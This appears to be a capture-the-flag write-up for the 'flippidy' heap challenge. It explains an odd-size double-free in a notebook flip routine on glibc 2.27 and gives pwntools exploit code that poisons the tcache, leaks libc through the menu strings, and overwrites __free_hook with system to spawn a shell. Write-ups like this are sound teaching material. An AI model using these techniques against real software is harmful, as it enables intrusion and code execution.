








# flippidy

See if you can flip this program into a flag :D

```
nc dicec.tf 31904
```

Author: joshdabosh

Files: [flippidy](https://dicegang.storage.googleapis.com/uploads/91ea90699d82a10df58946ec6ee8c355fd3b648f6f688faa194041ea6042a7b2/flippidy) [libc.so.6](https://dicegang.storage.googleapis.com/uploads/cd7c1a035d24122798d97a47a10f6e2b71d58710aecfd392375f1aa9bdde164d/libc.so.6)

```sh
$ checksec flippidy
[*] 'flippidy'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000) # !
$ ./libc-database/identify flip.so.6
libc6_2.27-3ubuntu1_amd64 # !
```

If you're wondering how I got [glibc source code](https://elixir.bootlin.com/glibc/glibc-2.27/source/malloc/malloc.c) to show up in gdb, [pwnscripts](https://github.com/152334H/pwnscripts) now comes with automagic libc source-level debugging. 

## Challenge info

`flippidy` is a simple 2-option challenge involving a heap-based notebook.

At the start of the program, the user is given control over the size of this notebook:

```c
int notebook_size; // .bss+0x30:0x404150
char **notebook;   // .bss+0x38:0x404158
int main() {
    ...
    printf("%s", "To get started, first tell us how big your notebook will be: ");
    notebook_size = getint(); // getint() is atoi-based and can return negative numbers, but afaik it's not exploitable
    notebook = malloc(8 * notebook_size);
    memset(notebook, 0, 8 * notebook_size);
    ...
}
```

After that, the user is allowed to interact with a basic CLI:

```
----- Menu -----
1. Add to your notebook
2. Flip your notebook!
3. Exit
:
```

Option 3 only calls `exit(0)`, so there are only two important options here:

### `add()`

`add()` takes a user controlled `ind`ex, checks that `ind` is within `[0,notebook_size)`, overwrites `notebook[ind]` with a `malloc(0x30)` pointer, and fills `notebook[ind]` with `fgets(0x30)`.

```c
int add(){
  printf("Index: ");
  int ind = getint();
  if (ind < 0 || ind >= notebook_size)
    return puts("Invalid index.");
  notebook[ind] = malloc(0x30);
  printf("Content: ");
  return fgets(notebook[ind], 0x30, stdin); // nul-terminated
}
```

### `flip()`

This function is the origin of the challenge's name, and it's somewhat large:

```c
unsigned __int64 flip() {
  // note: s[] and dest[] are the last variables on the stack before the stack cookie.
  char s[64]; // [rsp+10h] [rbp-A0h] BYREF
  char dest[72]; // [rsp+50h] [rbp-60h] BYREF
  for (int i = 0; i <= notebook_size/2; ++i) {
    memset(s, 0, sizeof(s));
    memset(dest, 0, 0x40);
    // for the two notes to be swapped, if the note exists, make temp strcopies and free it
    char no_leftwards_notebook = 0, no_rightwards_notebook = 0;
    if (notebook[i]) {
      strcpy(s, notebook[i]);               // s is large enough
      free(notebook[i]);
    } else no_leftwards_notebook = 1;
    if (notebook[notebook_size - i - 1]) {  // note: [notebook_size-i-1] == [i] is possible! e.g. notebook_size = 5, i = 2
      strcpy(dest, notebook[notebook_size - i - 1]);
      free(notebook[notebook_size - i - 1]);
    } else no_rightwards_notebook = 1;
    notebook[i] = notebook[notebook_size-i-1] = 0;
    // put the temporary notes into their expected swapped positions
    if (no_leftwards_notebook != 1)
      strcpy(notebook[notebook_size - i - 1] = malloc(0x30uLL), s);
    else
      notebook[notebook_size - i - 1] = 0;
    if (no_rightwards_notebook != 1)
      strcpy(notebook[i] = malloc(0x30uLL), dest);
    else
      notebook[i] = 0;
  }
}
```

In short, assuming both `notebook[i]` and `notebook[notebook-size-i-1]` exist, the algorithm goes like this:

```python
for i in range(notebook_size/2 +1):
    j = notebook_size-i-1
    s = notebook[i] # strcpy()
    del notebook[i] # free()
    d = notebook[j] # strcpy()
    del notebook[j] # free()
    notebook[i], notebook[j] = d,s # malloc() and strcpy()
```

The bug lies in the terminating condition for the for-loop, `i <= notebook_size/2`. For any odd `notebook_size`, `i == notebook_size/2` inevitably implies `i == notebook_size-i-1 == j`<sup>1</sup>. When `i == j`, you get a double-free on `notebook[i]`, because this challenge runs on libc-2.27<sup>2</sup>:


In this image, `free() == 0x401030` is called on `notebook[j] == 0x5555558ed320 == "hi\n"`, even though the same pointer already exists as a freed pointer on the tcache. This puts the tcache into a simple loop:



After that, this chunk of code runs:

```c
strcpy(notebook[notebook_size - i - 1] = malloc(0x30uLL), s);
strcpy(notebook[i] = malloc(0x30uLL), dest);
```

The first `strcpy()` will overwrite the `fd` pointer of the chunk located in the tcache, causing it to point to a different location:



The next `strcpy()` will eat up the remaining reference to the original `notebook[i]` pointer, leaving only the corrupted chunk on the tcache at the end of the function:



If we try to allocate a new `malloc(0x30)` pointer with `add()`, we'll get a pretty obvious crash from the tcache attempting to access `0x5555000a6968`:


Note that `u32("hi\n\0") == 0x000a6968`. Because `flip()` specifically uses `strcpy()`, this bug in `flip()` gives us the ability to access a _relative arbitrary write_ on the heap. In particular, given `notebook[notebook_size/2] == 0x555555abcde0`, we have the power to write `fgets(0x30)`<sup>3</sup> bytes of input to

```c
0x555555abcd00
0x555555ab00XX
0x55555500XXXX
...
```

What can we do with this?

## Poisoned nul-byte

Heap offsets are always constant from the start of a program, and we'll use this to fish up something useful for our relative write.


In the example image above, we have `notebook_size == 5`, plus 3 allocated pointers from `add()`:

```python
menu_lines = 0x404020	# we want to write to here
r.sendlineafter('how big your notebook will be: ', '5')
add(1, b'hi')
add(2, b'A'*0x30)
add(3, b'\0')
flip()
```

The heap pointers provided by `malloc()` are predictable, and will generally match the pattern of

```
notebook == 0x55555[56][0-9a-f]{3}260
notebook[i] == notebook + request2size(notebook_size*8) + 0x40*i 
```

By setting `notebook[notebook_size/2] = ""`, `(&notebook[notebook_size/2]>>16)<<16` will end up as a pointer on the free-list. In the example image above, `&notebook[notebook_size/2] == 0x55555....310`, causing the next allocation to give `0x55555....300`:



Or more diagrammatically:

```c
0x55555....260                0x55555....300
|    0x55555....290                   | 0x55555....310
|          |    0x55555....2d0        v    v
v          v               v          [--notebook[0]--]
[-notebook-+--notebook[3]--+--notebook[4]--+--notebook[2]--]
```

I tried for a while<sup>4</sup> to abuse this heap pointer overlap to get an arbitrary write, and eventually discovered a neat trick for arbitrary write:

When `malloc(0x30)` grabs a pointer from the tcache free list, it will link the `fd` pointer of the memory block allocated as the next item in the free list to be allocated. If we manage to edit the `fd` pointer for `0x55555....300` _before its allocation_ to point towards a writeable memory address, that address will be the next pointer to be allocated by `malloc(0x30)` (after `0x55555....300`).

We'll adjust our allocations (switching `notebook_size` to 7 to push forward the rest of the notes by 0x10) a bit to allow the second `malloc(0x30)` pointer to overwrite the `fd` pointer:

```c
0x55555....260                 0x55555....300
|      0x55555....2a0                |  0x55555....320
|            |    0x55555....2e0     v       v
v            v               v       [--notebook[0]--]
[--notebook--+--notebook[1]--+--notebook[2]--+--notebook[3]--]
```

You can see this in gdb:



Programmatically, 

```python
menu_lines = 0x404020	# we want to write to here
r.sendlineafter('how big your notebook will be: ', '7')
add(1, b'hi')
add(2, b'A'*0x20 + pack(menu_lines) + pack(0))
add(3, b'\0')
flip()
```

In this case, we're overwriting the `fd` of the `0x55555....300` chunk with the magic address `0x404020`. Why? In IDA Pro, this is what `0x404020` represents:

```c
.data:0000000000404020 menu_lines      dq offset aMenu         ; DATA XREF: show_menu+2A↑o
.data:0000000000404020                                         ; "----- Menu -----"
.data:0000000000404028                 dq offset a1AddToYourNote ; "1. Add to your notebook"
.data:0000000000404030                 dq offset a2FlipYourNoteb ; "2. Flip your notebook!"
.data:0000000000404038                 dq offset a3Exit        ; "3. Exit"
.data:0000000000404040 aMenu           db '----- Menu -----',0 ; DATA XREF: .data:menu_lines↑o
```

By writing to `menu_lines[]`, we can replace the strings that are printed by the menu interface over here:

```c
int show_menu() {
  puts("\n");
  for (int i = 0; i <= 3; ++i) puts(menu_lines[i]);
}
```

This means that replacing `menu_lines[i]` with a GOT address will provide a libc leak, which we will need to use for `__free_hook = system` later. Additionally, because `menu_lines[0] == menu_lines+0x20`, we can repeat this `fd` trick with _another_ `malloc(0x30)` allocation for _another_ arbitrary write:

```not really a great diagram but it can't be helped honestly please help me
         -writable-
        /  (0x30)  \
       v            v
       [--malloc(0x40)--]
       ^        [--malloc(0x40)--]
0x404020        ^^
            fd (0x404040)
```

We'll use the `0x404020` allocation to simultaneously leak libc && secure a future arbitrary write:

```python
add(0, b'hey')  # this is heap pointer 0x55555....300.
add(0, pack(context.binary.got['free']) + 4*pack(0x404040) + pack(0)) # edit menu_lines[]
context.libc.symbols['free'] = unpack_bytes(r.recvuntil(b'\x7f')[-6:],6) # grab libc leak from `show_menu()`
```

The second `add()` call is essentially converting `menu_lines[]` to this:

```c
.data:0000000000404020 menu_lines      dq offset free_got
.data:0000000000404028                 dq offset menu
.data:0000000000404030                 dq offset menu
.data:0000000000404038                 dq offset menu
.data:0000000000404040 menu            dq offset menu
```

With the tcache in an infinite loop again, this time directed at `menu`:



From here, we have the power to write to pop a shell:

1. run `add()` with `pack(__free_hook)` as input. This will overwrite the fd for the chunk associated with `0x404040`.
2. Run `add()` again to get rid of the remaining `0x404040` pointer on the tcache
3. Run `add()`; any input at this point will overwrite `__free_hook`; I chose<sup>5</sup> to use `system()` here
4. `add("/bin/sh")` to index 0, and run `flip()`. `"/bin/sh"` will be the first string to be freed.

```python
add(0, pack(context.libc.symbols['__free_hook']))
add(0, b'\0')
add(0, pack(context.libc.symbols['system']))
add(0, b'/bin/sh;')
flip()
r.interactive()
```

`dice{some_dance_to_remember_some_dance_to_forget_2.27_checks_aff239e1a52cf55cd85c9c16}`

## Footnotes

1. Note that for an odd number `notebook_size`, `notebook_size/2 == (notebook_size-1)/2` (once; non-recursive). This means that

   ````c
   i == notebook_size/2
     == (notebook_size-1)/2
     == 2*((notebook_size-1)/2) - i
     == notebook_size-1-i
   ````

2. You can test this section of the writeup with this code:

   ```python
   from pwnscripts import *
   context.binary = 'flippidy'
   context.libc_database = 'libc-database'
   context.libc = 'flip.so.6' # rename libc.so.6 to this
   r = context.binary.process()
   notebook_size = 0x404150
   def add(ind: int, cont: bytes):
       r.sendlineafter(': ', '1')
       r.sendlineafter('Index: ', str(ind))
       r.sendlineafter('Content: ', cont)
   def flip(): r.sendlineafter(': ', '2')
   
   r.sendlineafter('how big your notebook will be: ', '7')
   for i in range(3): add(i+1, b'hi')
   gdb.attach(r, gdbscript='b *0x4014d2\nc')
   flip()
   r.interactive()
   ```

3. It's important to recognise the limits of `fgets()` based inputs, and we can express this with a simple test.

   ```c
   #include <stdio.h>
   int main() {
   	char s[8];
   	for (int i = 0; i < 8; i++) s[i] = i;
   	fgets(s,8,stdin);
   	for (int i = 0; i < 8; i++) printf("%.2x",s[i]);
   }
   ```

   `fgets()` will only terminate iff it sees a newline or it reaches the maximum input length; only the latter will result in no newline being written to the string.

   ````sh
   # this is 'a' + EOF
   $ ./a.out
   a
   610a000304050607
   # this demonstrates that fgets() will accept nul-bytes
   $ python3.8 - <<EOF
   from pwn import *
   r = process('./a.out')
   r.send(b'ab\0\0\0\0cd') # this is 
   print(r.recvall())
   EOF
   b'6162000000006300'
   # this is why using fgets() requires padding to reach maximum input
   $ python3.8 - <<EOF
   from pwn import *
   r = process('./a.out')
   r.send(b'ab\0\0cd')
   print(r.recvall())
   EOF
   ^C[-] Receiving all data: Failed
   # because if you use a newline, it gets written too
   $ python3.8 - <<EOF
   from pwn import *
   r = process('./a.out')
   r.send(b'ab\0\0cd\n')
   print(r.recvall())
   EOF
   b'6162000063640a00'
   ````

4. This was definitely not the first thing I tried.

   I started out by attempting to switch the tcache free list to point to `0x404020`, but that was effectively impossible with `strcpy()`.
   After that, I made an attempt to use the nul-byte method to overlap with another pre-existing allocated chunk (`0x55555....300` and `0x55555....310`), altering chunk metadata for an exploit. Calling `flip()` again quickly encouraged an error message:
    

   `free()` was dropping all pointers to the more secure fastbin-related parts of `_int_free()`, because `malloc.c` didn't want to run `tcache_put()` on any of the pointers passed to `free()`
   
   Pulling off `0x55555...300` from the tcache free list causes an integer underflow on the number of `0x40` free pointers available (i.e. `tcache->counts[tc_idx=2]`), and that effectively walls off the tcache from the program for the rest of its execution. From thereon, I decided that using `flip()` for anything other than `__free_hook` execution was essentially impossible, because the fastbin is guaranteed to crash for almost any immediate double free.

5. I wanted to try using a `one_gadget` for `__free_hook`, rather than `system()`, but the stack for `__free_hook` was rather uncooperative:

   

    Note that on `libc-2.27`, one_gadgets usually require `[rsp+0x40/0x70]` to be blank (which wasn't the case here):

   ```ruby
   $ one_gadget flip.so.6
   0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
   constraints:
     rsp & 0xf == 0
     rcx == NULL
   
   0x4f322 execve("/bin/sh", rsp+0x40, environ)
   constraints:
     [rsp+0x40] == NULL
   
   0x10a38c execve("/bin/sh", rsp+0x70, environ)
   constraints:
     [rsp+0x70] == NULL
   ```

   

   